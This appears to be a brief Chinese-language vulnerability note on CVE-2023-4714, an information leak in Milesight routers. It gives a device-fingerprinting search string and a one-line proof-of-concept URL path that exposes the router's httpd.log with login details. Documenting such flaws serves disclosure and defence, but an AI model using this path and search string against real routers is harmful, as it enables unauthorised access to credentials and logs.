

# Milesight Router httpd.log 信息泄漏漏洞 CVE-2023-4714

## 漏洞描述

Milesight Router 存在信息泄漏漏洞，攻击者通过访问httpd.log可以获取登陆敏感日志信息

## 漏洞影响

Milesight Router

## 网络测绘

```
"rt_title"
```

## 漏洞复现

登陆页面


poc

```
/lang/log/httpd.log
```

